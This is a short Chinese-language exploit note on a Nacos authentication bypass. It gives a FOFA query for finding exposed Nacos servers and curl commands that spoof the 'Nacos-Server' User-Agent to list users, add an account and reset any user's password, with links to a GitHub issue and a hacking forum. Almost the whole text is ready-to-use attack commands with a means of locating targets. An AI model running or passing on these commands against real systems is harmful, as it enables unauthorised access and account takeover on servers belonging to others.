 # Nacos Bypass身份验证


fofa：

```
title="Nacos" || icon_hash="1227052603"
```

**影响范围：**

* 2.0.0-ALPHA.1
* 1.xx

**漏洞验证：**


```bash
访问用户列表界面
curl XGET 'http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'

添加新用户
curl -XPOST 'http://127.0.0.1:8848/nacos/v1/auth/users?username=test&password=test' -H 'User-Agent: Nacos-Server'

查看用户列表
curl XGET 'http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'

任意密码重置:
curl -XPUT https://test.alibaba.com/nacos/v1/auth/users -d "username=nacos&newPassword=SomeNewPass11222"
```

from:https://github.com/alibaba/nacos/issues/4593

ref：https://forum.ywhack.com/thread-114954-1-1.html
